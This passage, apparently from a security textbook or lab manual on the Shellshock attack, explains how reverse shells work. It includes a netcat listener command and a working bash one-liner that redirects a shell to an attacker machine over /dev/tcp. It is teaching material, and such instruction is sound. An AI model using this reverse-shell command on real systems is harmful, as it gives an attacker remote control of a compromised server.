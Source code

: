 The key idea of reverse shell is to redirect its standard input, output, and error devices to a
network connection, so the shell gets its input from the connection, and prints out its output
also to the connection. At the other end of the connection is a program run by the
attacker; the program simply displays whatever comes from the shell at the other end,
and sends whatever is typed by the attacker to the shell, over the network connection.

A commonly used program by attackers is
\texttt{netcat}, which, if running
with the \texttt{"-l"} option, becomes a TCP server that listens for a connection on the
specified port. This server program basically prints out whatever is sent by the client, and
sends to the client whatever is typed by the user running the server.
In the following experiment, \texttt{netcat} (\texttt{nc} for short) is used
to listen for a connection on port \texttt{9090}~(let us focus only on the first line).


\begin{lstlisting}
Attacker(10.0.2.6):$ nc -l 9090 -v  (*@\reflectbox{\ding{217}} \textbf{Waiting for reverse shell}@*)
Connection from 10.0.2.5 port 9090 [tcp/*] accepted
Server(10.0.2.5):$     (*@\reflectbox{\ding{217}} \textbf{Reverse shell from 10.0.2.5.}@*)
Server(10.0.2.5):$ ifconfig
ifconfig
eth23  Link encap:Ethernet  HWaddr 08:00:27:fd:25:0f
       inet addr:(*@\textbf{10.0.2.5}@*)  Bcast:10.0.2.255  Mask:255.255.255.0
       inet6 addr: fe80::a00:27ff:fefd:250f/64 Scope:Link
       ...
\end{lstlisting}


The above \texttt{nc} command will block, waiting for a connection.
We now directly run the following \bash program on the Server machine~(\texttt{10.0.2.5}) to emulate
what attackers would run after compromising the server via the Shellshock attack. 
This \bash command will trigger a
TCP connection to the attacker machine's port 9090, and a reverse shell will be created. We can
see the shell prompt from the above result, indicating that the shell is running on the Server
machine; we can type the \texttt{ifconfig} command to verify that the IP address is indeed
\texttt{10.0.2.5}, the one belonging to the Server machine.  Here is the \bash command:

\begin{lstlisting}
Server(10.0.2.5):$ /bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&1
\end{lstlisting}

The above command represents the one that would normally be executed on a compromised server.
It is quite complicated, and we give a detailed explanation in the following:


